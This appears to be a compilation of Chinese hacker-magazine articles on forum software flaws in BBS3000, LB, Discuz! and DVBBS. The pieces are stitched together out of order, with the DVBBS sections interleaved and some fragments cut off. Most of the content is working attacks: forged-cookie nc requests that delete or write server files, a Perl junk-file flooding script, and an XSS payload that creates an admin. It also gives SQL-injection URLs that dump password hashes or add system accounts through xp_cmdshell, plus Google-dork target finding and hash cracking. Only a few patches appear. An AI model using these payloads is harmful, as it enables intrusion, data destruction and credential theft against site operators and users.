黑客防线攻防守实验室正式开放后，第一关的任务就是让你通过 BBS3000 的脚本漏洞来入侵服务器。7 月中旬得知消息后，我怀着极大的兴趣参加了此次活动。不知是被人先入侵进去做了手脚，还是被主办方设置如此，我一一使用了网上流行的 BBS3000 各种入侵方法，第一关也是无论如何都闯不过去。虽然我不懂 CGI 语言，无奈之下还是从网上下载了一个 4.132 版的 BBS3000 从头来看源码，没想到竟然发现了 BBS3000 存在的一处重大安全隐患。其具体漏洞分析和入侵方法详述如下。

我们首先来看 friend.cgi 文件中的相关代码。

```perl
sub add{
    if($add eq ''){&okview("请输入好友的名字！")}
    if($Cookies{username} eq $add){&okview("不能添加自己！")}
    unless(-e "$filepath/ymz/$add.cgi"){&okview("对不起，此名字没有在本论坛注册过！")}
    open(PSD,"$filepath/friend/$Cookies{username}.cgi"); ***** 这里有问题 $Cookies{username} 是可以伪造的，程序对 username 没有做任何限制
    @lines=<PSD>;
    close(PSD);
    $no=@lines;
    if($no >= 19){&okview("无法添加好友，系统限定好友人数不得超过 20 人！")}
}
```

```perl
foreach $line (@lines){
    chomp($line);
    if($line eq $add){
        print "Content-type: text/html\n\n<meta HTTP-EQUIV=REFRESH CONTENT=0;URL=friend.cgi>";
        exit;
    }
    open(PSD,">>$filepath/friend/$Cookies{username}.cgi")
    print PSD "$add"."\n";
    close(PSD);
    print "Content-type: text/html\n\n<meta HTTP-EQUIV=REFRESH CONTENT=0;URL=friend.cgi>";
    exit;
}

sub del{
    open(TITLES5,'$filepath/friend/$Cookies{username}.cgi'); *** 这里有同样的问题，程序依然没有对 username 做任何限制，$Cookies{username} 是可伪造的
    @hastitles5=<TITLES5>;
    close(TITLES5);
    open(TITLESS,'>$filepath/friend/$Cookies{username}.cgi'); *** 还是同样的问题
    foreach $m5 (@hastitles5){
        chomp($m5);
        if($m5 ne $add){
            print TITLESS $m5."\n";
        }
    }
    close(TITLESS);
    print "Content-type: text/html\n\n<meta HTTP-EQUIV=REFRESH CONTENT=0;URL=friend.cgi>";
}
```

```text
; exit;
}
```

```http
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0b; Windows NT 5.0; (R1 1.3); .NET CLR 1.0.3705)
Host: 127.0.0.1
Connection: Keep-Alive
Cookie: nowtime=19990716222619; username=lcx; password=123; estate=; xuansave=; line=; yhreg=42
```

正常情况下，我们以一个普通用户，比如lcx来登录论坛，利用http://ip/bbs3000/friend.cgi?menu=addhtml或http://ip/bbs3000/friend.cgi?menu=delhtml来给自己正常添加、删除好友名单。friend.cgi只是根据你的cookie来判断你是不是lcx，假如你是的话，你来添加好友，就根据你的需要在/bbs3000/数据目录/friend/目录下生成lcx.cgi，里面的内容就是你的好友名单，一行一行排列；删除好友的话，也只是从/bbs3000/数据目录/friend/目录下的lcx.cgi将好友名单一行一行地删除。但是看friend.cgi源码可以得知，程序对Cookies{username}没有做任何限制，username也就是你登录论坛的ID，而它是可以伪造的。

我在本机（Win2K+IIS+Perl）架设了一个CGI论坛，用lcx这一ID登录论坛后，打开http://127.0.0.1/bbs3000/friend.cgi?menu=delhtml来删除自己好友名单中的system用户，用了一个嗅探工具WinSock Expert v0.3 beta1来抓包（图1），可以得到如下的数据。

得到这些数据后，伪造过程就开始了。我们将最后一行的Cookie: nowtime=19990716222619; username=lcx; ...中的lcx改动一下，我们改造成../../reg，这个就表示bbs3000论坛里的reg.cgi（程序会自动加上.cgi后缀）文件，原来它是表示在bbs3000论坛/数据目录/friend目录下的lcx.cgi文件。然后我们再将第一行GET /bbs3000/friend.cgi?menu=del&add=system HTTP/1.1中的system改动一下，改成#! /usr/bin/perl。明白了吧，就是reg.cgi文件的第一行内容。当然，改成reg.cgi第几行的内容都行。然后我们用瑞士军刀nc来将修改后的cookie包发送出去。依次提交如下几行数据：


```http
nc -vv 127.0.0.1 80
GET /bbs3000/friend.cgi?menu=del&add=#! /usr/bin/perl HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/msword, */*
Referer: http://127.0.0.1/bbs3000/friend.cgi?menu=delhtml
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0b; Windows NT 5.0; (R1 1.3); .NET CLR 1.0.3705)
Host: 127.0.0.1
Connection: Keep-Alive
Cookie: nowtime=19990716222619; username=../../reg; password=123; estate=; xuansave=; line=; yhreg=42
```

```http
GET /bbs3000/friend.cgi?menu=del&add=system HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/msword, */*
Referer: http://127.0.0.1/bbs3000/friend.cgi?menu=delhtml
```

后果会是什么样呢？果然是将bbs3000/reg.cgi中的第一行#! /usr/bin/perl给删掉了。只要我们不断修改不断提交这些数据，就会将reg.cgi内容一行一行……一行地完全删除。如果你要将这些数据用于别的网站的话，只要将其中的 `127.0.0.1` 改成别的网站 IP，论坛目录也做相应修改就行了。运用此方法，我们可以把网站里 Web 目录下所有的 CGI 文件内容——破坏或清空。

我们不但可以删除网站 Web 目录下 CGI 文件的内容，还可以写入一些 CGI 文件。我们依然用 nc 提交如下数据：

```text
Cookie: nowtime=19990716222619;
username=...; 文件名=...; password='123';
estate=...; xuansave=...; line=...; yhref=42
```

```http
nc -vv 27.0.0.1 80
GET /bbs3000/friend.cgi?menu=add&add=你要写的内容 HTTP/1.1
（和删除数据的发送包相比较，不过是将 menu=del&add 改成了 menu=add&add 而已）
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/msword, */*
Referer: http://127.0.0.1/bbs3000/friend.cgi?menu=addhtml（这里是 addhtml 了）
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0b; Windows NT 5.0; (R1 1.3); .NET CLR 1.0.3705)
Host: 127.0.0.1
Connection: Keep-Alive
```

那么你就会在 `bbs3000` 目录下写入一个“文件名 `.cgi`”文件，里面的内容是你刚才发送数据包里的你要写的内容。

如图2所示，我就在 `bbs3000` 目录下写入了一个 `lcx.cgi`，里面的内容是 `system`。可能聪明的你会说了，再写入一个 `@ARGV;#` 呀，不就形成一个 CGI 后门了吗？这是不行的。因为 `friend.cgi` 里有这样一行：`unless(-e "$filepath/yhzl/$add.cgi"){&okview("对不起,此名字没有在本论坛注册过!");};`，也就是说你要写入的内容必须是论坛里的已注册的用户名。如果论坛对用户名没有做严格过滤的话，我们可以得逞，可现在论坛对注册名过滤得很严格，所以是不成功的。同样的道理，你将以上数据的 IP 和论坛的 URL 做相应改动后，也可以提交给别的网站。


图3就是我在黑客防线攻防实验室的服务器里写入了一个 `lcx.cgi`，内容是 `lcx`。如果网管没有删除的话，你可以在 `http://219.237.81.11:88/lcx.cgi` 这里看到。页面会显示：`syntax error at D:\wwwroot\lcx.cgi line 1, near "lcx!"`，说明第一行的内容是 `lcx`。

最后要说明的是，此方法我只在 `Win2k + IIS + Perl` 平台上测试成功。如果你要进入攻防实验室测试，发送我提供的数据前必须要先用一个 ID 在 `BBS3000` 登录成功后才可以。


不过这里还是要提醒大家一下，利用此方法进入攻防实验室后，千万不要做什么破坏行动，毕竟这是黑客防线提供给我们大家的一个合法的黑客测试平台，我们应该时时去维护它。如果你对进入攻防实验室有了什么新的思路，千万记得到我们的论坛上去讨论哦，也许就会启发大家的思路，再次发现什么更有效的入侵方法也说不定哦！

LB论坛作为国内最优秀的论坛软件，其良好的结构让我们不得不佩服。但是百密总有一疏，本文具体分析了几个存在问题的LB文件，最后给出了相应的解决办法，希望大家参照本文打好补丁。


## 4个有问题的LB文件

文 / PsKey

## 一、setregmsg.cgi和setregrules.cgi存在无认证漏洞

- 涉及版本
涉及LB论坛的所有版本（就笔者稿日期03.4.15而言）

- 描述
setregmsg.cgi和setregrules.cgi两个文件存在无认证漏洞，导致攻击者可以直接修改论坛“注册声明”和“短消息欢迎信息”。

- 具体分析
在LB官方站点看到LB补丁程序，原来setregmsg.cgi和setregrules.cgi两个文件存在无认证漏洞，导致攻击者可以直接修改论坛“注册声明”和“短消息欢迎信息”，这个漏洞存在于所有版本，这可能给论坛带来一些尴尬。

试看如下代码（这是setregmsg.cgi中的部分程序段，setregrules.cgi文件存在的问题和这一样，不再赘述）：

```perl
45: $rules      = $query->param('therules');
46: $action     = $query->param('action');
...
58: if ($action eq "process") {
...
61: $rules =~ s/\^n\^n/\n/g;
62: $rules =~ s/\^st/\t/g;
...
64: $filetomake = "$lbdir" . "data/newusrmsg.dat";
```

```perl
65: open (FILE, ">$filetomake");
66: print FILE $rules;
67: close (FILE);
```

这个文件的问题很明显，它没有任何验证，因此利用起来也十分的简单。我们只需提交如下请求，就可以修改“注册声明”：

```http
http://www.target.com/perl/lb5000mx/cgi-bin/setregrules.cgi?action=process&therules=要修改的内容
```

提交如下请求则可以修改“短消息欢迎信息”：

```http
http://www.target.com/perl/lb5000mx/cgi-bin/setregmsg.cgi?action=process&therules=要修改的内容
```

编者语：可以看出，在编写CGI程序的时候，对需要验证的文件一定要严密把关，以避免出现诸如本文所描述的这种情况。

## 二、blocklist.cgi、friendlist.cgi存在无验证和可写入垃圾文件漏洞

- 涉及版本
LB所有版本

- 描述
blocklist.cgi、friendlist.cgi是LB中注册用户用来添加删除好友和黑名单的文件，由于无验证，可能导致非法用户操作合法用户好友/黑名单列表，并可能向系统中写入大量垃圾文件。

### 3. 具体分析

我们先来看看相关代码(这是blocklist.cgi文件的部分程序段，friendlist.cgi和它的问题一样，这里不再重复介绍)。

```perl
46: my $adduser = $q->param('adduser');
47: my $inmembername = $q->param('membername');

59: if ($inmembername eq '客人') {
60:   &loginbl;
61: } else {
62:   &action;  # 如果提交用户不为空调用action()
63: }

67: sub action {
68:   if ($action eq 'adduser') { &adduser($adduser); }  # 调用adduser()

75:   &getmember($adduser);  # 被提取添加用户信息资料
76:   if ($emailaddress) {  # 如果存在则执行如下操作

84:   $filetomake = "$bdir" . "/memblock/$memberfiletitle.cgi";

95:   if (open(FILE, ">$filetomake")) {  # 把添加的用户写入
```

这和我们上面讨论的问题很相似，满足如下条件就可以实现写入：

- 提交的membername不为空，可为任意值。
- 提交的adduser是论坛中存在的用户。

既然如此，我们提交如下URL测试一下：

`http://www.target.com/perl/lb5000mx190/cgi-bin/blocklist.cgi?action=adduser&membername=aa&adduser=qq`

这样，我们给aa用户添加了一个黑名单qq，我们也可以设置一个不存在的membername，例如：

`http://www.target.com/perl/lb5000mx190/cgi-bin/blocklist.cgi?action=adduser&membername=anyname&adduser=qq`

这样便在/memblock目录下生成了一个anyname.cgi文件。

这样，我们可以写个小程序来写入多个垃圾文件，这样目标网站的硬盘资源很快便会被侵蚀。

程序代码如下：

```perl
#!/usr/bin/perl
# Codz By PsKey<PsKey@hotmail.com>
# This script can Attack iB's blocklist.cgi & friendlist.cgi
$|=1;
use Socket;
use Getopt::Std;
getopt('hpwan');

print "==============================\n";
print "Codz By PsKey<PsKey@hotmail.com> 2003/4/2\n";
print "==============================\n";

# 检查是否输入了完整参数。
&usage unless (defined($opt_h) && defined($opt_w) && defined($opt_a) && defined($opt_n));

$host=$opt_h;
$port=$opt_p||80;
$way=$opt_w;
$adduser=$opt_a;
$num=$opt_n;

@a=(1..$num);
print "Please wait...\n";
for($i=0;$i<@a;$i++){

$b="Iloveyou".$a[$i];
print "$b\n";
# 所构造的能写入垃圾文件的请求
$request = "GET $way/action=adduser&membername=$b&adduser=$adduser HTTP/1.1\r\n"
         . "Host: $host\r\n\r\n";
sendraw($request);  # 发送请求
```

```perl
}

# 用法函数
sub usage {
    print qq{
Usage: $0 -h <Host> [-p <port>] -w <way> -a <adduser> -n <number>
    -h    = hostname you want to attack
    -p    = port, 80 default
    -w    = the path of the weak file
    -a    = one of LB forum's valid username
    -n    = how many files you want to create

Eg: $0 -h www.target.com -p 80 -w /cgi-bin/blocklist.cgi -a root -n 1000
};
    exit;
}

# 这个函数用来发送请求
# thanx rfp <rfp@wiretrip.net>'s sendraw
sub sendraw {
    my ($request) = @_;
    my $target;
    $target = inet_aton($host) || die("inet_aton problems");
    socket(S, PF_INET, SOCK_STREAM, getprotobyname('tcp')||0) || die("Socket problems\n");
    if(connect(S, pack "SnA4x8", 2, $port, $target)) {
        select(S);
        $| = 1;
        print $request;
        my @in = <S>;
        select(STDOUT);
        close(S);
        return @in;
    } else {
        die("Can't connect...\n");
    }
}
```

#### 二、解决方法

- 对于setregmsg.cgi和setregrules.cgi文件
在setregmsg.cgi文件中（setregrules.cgi和下面一样，不另作说明）

```perl
if ($action eq "process") {
    语句后加上：
    &getmember("$inmembername");
    if (($membercode eq "ad") && ($inpassword eq $password) && (lc($inmembername) eq lc($membername))) {

    再在对应循环语句中加上：
}
else {
    &adminlogin;
}
```

- 对于blocklist.cgi和friendlist.cgi文件
在blocklist.cgi文件中（friendlist.cgi和下面一样，不另作说明）

```perl
if ($inmembername eq "客人") {
    &loginbl;
} else {
```

后面添加如下语句：

```perl
&getmember("$inmembername");
if ($userregistered eq "no") { &error("你没有注册!"); exit; }
elsif ($inpassword ne $password) { &error("你的密码错误!"); exit; }
```

后记：最近我们连续公布了几个论坛漏洞，并且给出了相应的解决办法。应该说，论坛存在漏洞是不可避免的，事实也已经证明不存在任何没有 BUG 的软件，关键就在于我们能否及时地找到并打上相应补丁。后边我们还会继续公布一些漏洞，同时也会给出具体的解决办法，希望大家关注。

Discuz! 是一款基于 PHP+MySQL 的论坛。“其可以满足从小流量到大流量，从个人到企业各方面应用的要求，为你提供一个全新的、快速的和优秀的论坛解决方案”。其宗旨是“永远以效率为主，让最大范围内的用户满意，让各种层次的管理人员满意”。或许也正因为如此，太多的人都希望可以突破其防线。如果你就是这么一位执著的“追求者”，那么本文或许能给你带来惊喜！


## 论坛安全分析

### 一、受影响的版本

Discuz! 2.0（更低版本及其前身 CDB 均存在本文描述部分漏洞），其中 2.0 为当前免费发布的最高版本，使用非常广泛。3.0 为商业版本，未免费发布。

### 二、描述

Discuz! 是一款由 www.discuz.net 开发和维护的 PHP 商业论坛，目前免费开放 2.0 版。Discuz! 论坛在安全方面承袭了 XMB 在安全处理上的一些长处，但自身没有再对安全问题做过多的关注，导致存在一些轻重不一的安全漏洞，下面我做出一些简要的介绍，有兴趣的朋友可以仔细看看。需要说明的是，PHP+MYSQL 安全组合经过优化配置可以消除绝大部分安全隐患，但我们这里谈的是代码本身的安全问题，所以这里提到的漏洞也是在设定环境下所存在的问题。

**Pig_j 注** XMB 是由 http://www.xmbforum.com/ 开发的一款论坛。

- 物理路径泄露漏洞
Discuz! 论坛容错处理很差，直接请求多个文件便可暴露物理路径。如提交：

```http
http://www.target.com/php/d2/include/db_mysql_error.php
```

**Pig_j 注** 这里 http://www.target.com/php/d2 才是论坛的主目录，各个网站该目录设置各有不同。

返回信息如下：

```text
Fatal error: Call to a member function on a non-object in e:\Target\php\d2\include\db_mysql_error.php on line 16
```

可以看出程序物理路径为 “e:\Target\php\d2\”，与此类似的还有：

```http
http://www.target.com/php/d2/include/editpost.php
http://www.target.com/php/d2/include/newreply.php 等。
```

**Pig_j 注** 物理路径泄漏的确是不少论坛都存在的问题，伤脑筋哦！

- 危害严重的跨站脚本漏洞
不少人认为跨站脚本所造成的后果比较轻，其实这种观点比较片面。不信？让我们来看看这里存在的问题：

```php
/admin/global.php 文件的部分代码如下：
@set_time_limit(600);

if($action && $action != 'main' && $action != 'header' && $action != 'menu' && !strpos($action, 'log')) {
    $extra = $semicolon = '';
    if(is_array($HTTP_GET_VARS)) {
        foreach($HTTP_GET_VARS as $key)
```

```php
=> $val) {
    if($key != 'action' && $key != 'sid') {
        $extra .= "$semicolon$key=$val";
        $semicolon = '&';
    }
}

@ $fp = fopen($discuz_root.'./forumdata/cplog.php', 'a');
@flock($fp, 3);
@fwrite($fp, "$discuz_user\t$onlineip\t$timestamp\t$action\t$extra\n");
@fclose($fp);
```

这里没有任何验证，也没有任何过滤，构造参数即可对文件写入，通常情况下我们可以注入恶意代码，但 `/forumdata/cplog.php` 文件开头有这么一行代码：

```php
<?PHP exit('Access Denied'); ?>
```

看来我们写入代码也没用，因为程序一开始就退出停止执行了。但我们这里还是有文章可以做的，这个文件是论坛后台管理日志，当管理员后台查看管理日志的时候程序会读取这个文件的内容，然后反馈到管理员的浏览器，如果我们构造一段 JavaScript 代码，而这段代码的功能就是让管理员的浏览器弹出一个窗口（即一个添加超级管理员的请求），明白了吗？提交如下请求：

```text
http://www.target.com/php/d2/admin/global.php?
action=hack&discuz_root=../&discuz_user=<script>
window.open('%22http://www.target.com/php/d2/
admincp.php?action=addmember%26newstatus=
Admin%26newusername=likecat%26newpassword=
catlikeme%26newemail=likecat@dog.
com%26addsubmit=%CC%ED%BC%D3%D3%C3%BB
%A7%22)</script>
```

这样，`/forumdata/cplog.php` 文件内容变成了下面这样：

```php
/------------------------------
<?PHP exit('Access Denied'); ?>
```

```html
<script>window.open("http://www.target.com/
php/d2/admincp.php?
action=addmember&newstatus=
Admin&newusername=likecat&newpassword=
catlikeme&newemail=likecat@dog.com&addsubmit=
添加用户")</script>

hack
discuz_root=../ discuz_user=<script>window.open
("http://www.target.com/php/d2/admincp.php?
action=addmember&newstatus=Admin&newusername=
likecat&newpassword=catlikeme&newemail=likecat@dog.
com&addsubmit=添加用户")</script>
```

当管理员查看日志的时候，系统便会自动生成 ilikecat/catlikeme 的超级管理员。当然有的地方可能会有限制，至于如何绕开或做得更隐蔽些的问题，留给您自己思考吧。

**Pig\_j** 这种攻击的确比较方便，参考我们才介绍过的跨站攻击，现在再看看或许会让我们思考更多哦？！

## 3.Sql Injection缺陷

当 PHP.INI 文件中设置为 `magic_quotes_gpc = off` 时，Discuz! 将是十分的危险，多个文件将存在严重 Sql Injection 缺陷。实践是检验真理的唯一标准，还是说几个例子吧：

试看 member.php 中相关代码：

```php
elseif($action == 'getpasswd') {
    $discuz_action = 141;
    if(!$id) {
        showmessage('undefined_action');
    }

    $query = $db->query("SELECT username
FROM $table_members WHERE pwdrcvtime>
$timestamp-864000 AND pwdrecover='$id'");
    $username = $db->result($query, 0);
    if(!$username) {
        $query = $db->query("UPDATE $table_members
SET pwdrecover='', pwdrcvtime='' WHERE
pwdrcvtime<$timestamp-864000");
        showmessage('getpasswd_illegal');
    }

    if((!$getpwsubmit || $newpasswd1 !=
$newpasswd2) ...
include template('getpasswd');
} else {
    $password = md5($newpasswd);
    $query = $db->query("UPDATE $table_members SET password='$password', pwdrecover='', pwdrcvtime='' WHERE pwdrecover='$id'");
    showmessage('getpasswd_succeed');
}
```

我们是不是可以对ID做点什么呢？让我们提交如下请求：

```
http://www.target.com/php/d2/member.php?action=getpasswd&id=1'%20or%20'1'='1'%20and%20username='admin
```

不是吧？！我们可以直接修改 admin 的密码了，当然其他用户的密码同样可以修改。看来 Sql Injection 原理虽然简单，但在不同场合也能有些不同的应用效果。

我们接着再看另外一个例子，试看 /include/common.php 文件的相关代码：

```
$sid = isset($HTTP_GET_VARS['sid']) ? $HTTP_GET_VARS['sid'] :
       (isset($HTTP_POST_VARS['sid']) ? $HTTP_POST_VARS['sid'] :
       $HTTP_COOKIE_VARS['sid']);
$discuz_user = daddslashes($HTTP_COOKIE_VARS['c_discuz_user']);
$discuz_pw = daddslashes($HTTP_COOKIE_VARS['c_discuz_pw']);

$newpm = $ipbanned = $sessionexists = 0;
if($sid) {
    if($discuz_user) {
        $query = $db->query("SELECT s.sid, s.groupid, s.styleid, s.groupid, m.username AS discuz_user, m.password AS discuz_pw, m.status, m.email, m.timeoffset, m.tpp, m.ppp, m.credit, m.timeformat, m.dateformat, m.signature, m.lastvisit, m.newpm ...
        FROM $table_sessions s, $table_members m
        WHERE m.username=s.username AND s.sid='$sid'
        AND s.ip='$onlineip' AND ...");
    }
}
```

```
OR (($discuz_user<>'') AND m.username='$discuz_user' AND m.password='$discuz_pw')))
```

$sid 是我们可以控制的，对于 $discuz\_user，我们也可以构造 Cookie，要是您觉得构造 Cookie 麻烦，直接注册一个账号然后登录也行。接着我们提交：

```
http://www.target.com/php/d2/index.php?sid='%20or%201=1%20INTO%20OUTFILE%20'e:/Target/php/d2/iloveyou.txt'/*
```

看到我们提交 URL 中包含的 “e:/Target/php/d2/” 没有？现在知道暴露物理路径给我们带来的“好处”了吧，嘿嘿！然后请求：

http://www.target.com/php/d2/iloveyou.txt

返回如下信息。

```
gmfwekzR    15    1    15    admin
0281283ecebe8a4c9bdf808097ff5ef    Admin
gerge@aa.com    8    0    0    2
h:1:{...}    1059982206    0

gmfwekzR    15    1    15    aa
0b4e7a0e5fe84ad35f5b5f95b9ceeac79    Member
aa@tt.com    8    0    0    0
h:1:{...}    1059960730    0

gmfwekzR    15    1    15    bb
875f26fdbfcecf20ceb4ca028263de66    Member
bb@yy.com    8    0    0    1
h:1:{...}    1059963639    0
```

这样，所有用户的加密密码全部显现出来了。

### 后记

脚本程序的安全的确是一个很大的问题，历史一次又一次地向我们证明了网络的极端不安全性。合理的配置的确可以让我们的网站避免遭受太多的风霜，不过对于一款开始商业化的论坛软件来说，其在软件本身的设计上或许应该考虑得更加周全。

## 动网论坛6.0版+SP2的严重漏洞攻击

文 / sagaboy.

如今，动网论坛ASP程序由于其自由发布、功能的强大，成为了各大型ASP网站的论坛首选，也正是由于动网论坛程序功能的齐全导致它或多或少地存在着漏洞，它的最新6.0版+SP2补丁就出现了致命的错误。可以不用任何的黑客软件，仅仅是在地址栏请求一个连接，就能拿到论坛上所有用户的基本资料，包括密码。想想看在几分钟内拿到一个论坛上所有用户的密码，这是一件多么恐怖的bug。

如果有人说动网论坛的密码是由MD(一种不可反向解密的加密方式)加密，就算你拿到了密码也做不了什么事！那你就大错特错了，早就出了一款专门针对动网MD5加密密码的解密程序，属于暴力破解类型，不要以为暴力破解速度就很慢，这款度身定做的破解软件的速度极快，经过我测试，20个纯数字的密码任何位数要不了5分钟就全部破解了，字符的密码花的时间要多点，不过最多也就一天的时间，如果用字典破解也能达到很好的效果，在黑客入侵行为中这也是很简单不过的了，这就足以看出这个漏洞的危害性。上面说了一堆关于这个漏洞的严重性，下面我们一起来看看这是怎样的一个漏洞，以及它的攻防是怎样的？

### 漏洞描述

假如有一个动网版ASP论坛的路径为：`http://127.0.0.1/bbs/`，在其后加上一句“`tongji.asp?orders=2&n=24%20userpassword,`”(不要忘了最后的逗号，这是精华所在)这样提交的路径就变成了 `http://127.0.0.1/bbs/tongji.asp?orders=2&n=24%20userpassword,`，如果他的论坛是6.0版本，并且打了sp2补丁，就会出现如图1所示的结果，这样就看到了这个论坛上所有用户密码的密文了。


图1

### 漏洞修复

下面我简单地介绍对于这个漏洞的攻击方式。

- 1. 有人会问到，我怎样才能找到有这样漏洞的论坛呢？

这里有个简便的方法，就是到www.google.com这个超酷的搜索引擎上去搜索，关键字为：“本系统要求使用Cookies，假如你的浏览器禁用Cookies，你将不能登录本系统”，这样就能搜索到很多的动网版论坛了，如图2所示，道理很简单，因为在动网版论坛登录的时候就会出现如上的提示信息。


- （2）要知道你找到的这个论坛是否有以上的漏洞，就需要在该论坛路径的后面加上一句“tongji.asp?orders=2&n=24%20userpassword,”，看是否会出现类似图1的结果，出现了就说明你找到的这个论坛版本是有这个漏洞的，可以进行以下的操作了；如果出现其他的（比如说出现没有找到该页，或出现的是用户名而不是密码的密文）你就放弃这个吧！重新再找一个就是了，多的是！

在论坛路径后面加上“tongji.asp?orders=2&n=24%20userpassword,”，得到如图3所示的结果：这个结果类似图1的结果（显示出了密码密文），说明我现在找的这个论坛有上述的漏洞，就可以进行下一步的操作对它进行渗透了。

- （3）将你先前提交的地址中的“tongji.asp?orders=2&n=24%20userpassword,”改为“tongji.asp?orders=2&n=24%20username,”，这样你就得到了密码对应的用户名了，如图4所示，它和图3中的信息是按照顺序一一对应的。将密码密文和用户名都复制保存下来。

```text
tongji.asp?orders=2&n=24%20userid,
tongji.asp?orders=2&n=24%20usercookies,
tongji.asp?orders=2&n=24%20userclass,
都不要忘记最后的那个逗号。
```

当然，你还可以构造其他的请求得到不同的结果，比如：

- （4）现在我们应该对密码密文进行破解了，这里我要用到我先前提到的那个速度飞快的破解软件——dvbbscrackv.exe。

（下载地址：http://www.hacker81.net/soft/soft.asp?id=131）

这个软件很简单，命令行模式，自带有简单的说明很容易上手，在命令行下，输入软件的名称就会得到简单的帮助，如图5所示。


一般的操作是：

| 命令 | 说明 |
|---|---|
| `DVbbscrackv -p pwfile.txt -w wordfile.txt` | 字典破解（约几秒） |
| `DVbbscrackv -p pwfile.txt -b num` | 数字暴力破解（约10分钟） |
| `DVbbscrackv -p pwfile.txt -b char` | 字符暴力破解（约一天） |


作为国内使用最多的论坛，DVBBS最近好像也不太太平，连续有漏洞被公布。这不，又来了！漏洞还是那类漏洞，不过这次要公布的漏洞，其原理和利用方法都非常简单，但是获得的权限却非常大，很值得大家去关注研究一下哦！

## 论坛漏洞归来

文／PsKey

据了解，动网论坛拥有超过50%使用论坛的中国互联网用户，成为中国论坛领域的事实上的标准。故其安全性备受瞩目，我先前发布过关于DVBBS的一些严重漏洞。近几日闲来无事，仔细通读了动网论坛代码后又发现了一些安全问题，在这里写出来与大家分享。涉及版本：

DVBBS（MSSQL版）当前所有版本。

### 描述

DVBBS是一款由WWW.ASPSKY.NET开发和维护的源代码开放的ASP论坛；由于其QueryResult.asp文件没有过滤用户提交传递给SQL查询的输入，导致远程攻击者可以利用此缺陷进行SQL注入攻击，进而威胁论坛或服务器安全。

### 具体内容

作为程序员，在书写Web程序时应该养成一个预防SQL Injection的好习惯，即首先处理变量中单引号问题，然后再把SQL语句中的变量都用单引号括起来，如数据类型为数字的变量。具体到ASP里面，很容易……

这里我就用破解纯数字密码举个例子，如下：

```text
dv -p pwfile.txt -b num -o pwdout.txt
```

我将程序的名称改为了“dv”，将用户名和密码密文按照一定的格式（密码密文:用户名）编辑过后保存，在“pwfile.txt”中，将破解完的密码明文和用户名保存在pwdout.txt中（确保pwdout.txt文件存在于程序的同一目录下），破解的过程就这么简单，菜鸟都能很容易上手。

破解出来pwdout.txt中的结果如下（其中真实的用户名我用“用户名n”字样代替了）

```text
password:111111 username:用户名1
password:830411 username:用户名2
password:830522 username:用户名3
```

```text
password:811024 username:用户名4
password:655315 username:用户名5
password:810325 username:用户名6
password:988098 username:用户名7
password:434649 username:用户名8
password:197859 username:用户名9
password:2118890 username:用户名10
```

这样简单的几步，你就成功地得到了这个论坛上的一些用户的密码了。如果你想得到超级管理员的账号，先随便用个用户登录到论坛上，看看谁是管理员，针对他的密码密文进行专门破解就行了（对单个用户速度更快），剩下来你要做什么，这就是你的事了！（千万不要搞破坏哦，看看是可以的！）

## 易忽略的地方则是表名变量，往往过滤了这类变量的单引号还并不能解决问题，我们来看 queryResult.asp 文件中的相关代码：

```asp
16  stable=checkstr(request("stable"))
17  if stable="" then stable=Nowusebbs
...
64  sub search()
65    sql=""
66    set rs=server.createobject("adodb.recordset")
67    select case stype
68      case 1
69        select case nSearch
70          ' 搜索主题帖子作者名
71          case 1
72            sql="select top 1000 locktopic, boardid, rootid, announced, body, Expression, topic, username, dateandtime, postuserid from [" & stable & "] where username='" & keyword & "' and " & searchboard & " " & searchday & " parentid=0 and locktopic<2 ORDER BY announceID desc"
...
Checkstr()函数代码为：
function checkStr(str)
    if isnull(str) then
        checkStr = ""
        exit function
    end if
    checkStr = replace(str, "'", "''")
end function
```

很明显，这里只过滤了 stable 变量的单引号，依赖 MSSQL 的强大功能我们可以做很多事。

首先以普通用户身份登录论坛，如普通用户 Pskey，其 userid 为 3207，提交如下请求可以把 Pskey 提升为论坛前台管理员：

```text
http://www.target.com/asp/dvbbsql/queryresult.asp?keyword=aa&SType=1&nSearch=1&SearchDate=5&boardid=1&Stable=bbs1 update%20[user]%20set%20usergroupid=1%20where%20userid=3207--
```

提交如下请求会直接在目标操作系统添加 pskey/likecat 系统账号（非论坛账号）：

```text
http://www.psych.com/asp/dvbbsql/queryresult.asp?keyword=aa&SType=1&nSearch=1&SearchDate=5&boardid=1&Stable=bbs1;declare%20@hack%20sysname%20select%20@hack=0x6e0065007400200075007300650072002000700073006b006500790020006c0069006b00650063006100740020002f00610064006400%20exec%20master..dbo.xp_cmdshell%20@hack--
```

```text
asp?keyword=aa&SType=1&nSearch=1&Search=1&SearchDate=5&boardid=1&Stable=bbs1;declare%20@hack%20sysname%20select%20@hack=0x6e0065007400200075007300650072002000700073006b006500790020006c0069006b00650063006100740020002f00610064006400%20exec%20master..dbo.xp_cmdshell%20@hack--
```

提示：有些朋友可能对上面 URL 中的一串字符感到陌生，这是因为我们不能使用单引号，所以采用了 16 进制格式，大家可以查阅 ASCII 帮助或相关转换程序来自己构造。

上面我们提交的 URL 实际在目标系统执行的系统命令为：

```text
net user pskey likecat /add
```

提交如下请求把刚才添加的 pskey 提升到系统管理员组：

```text
http://www.psych.com/asp/dvbbsql/queryresult.asp?keyword=aa&SType=1&nSearch=1&Search=1&SearchDate=5&boardid=1&Stable=bbs1;declare%20@hack%20sysname%20select%20@hack=0x6e006500740020006c006f00630061006c00670072006f00750070002000610064006d0069006e006900730074007200610074006f00720073002000700073006b006500790020002f00610064006400%20exec%20master..dbo.xp_cmdshell%20@hack--
```

在目标系统执行的系统命令为：

```text
net user localgroup administrators pskey /add
```

当然，仿照上面的思路，我们还可以做更多，大家自己试着构造请求吧！

> > 编后
>
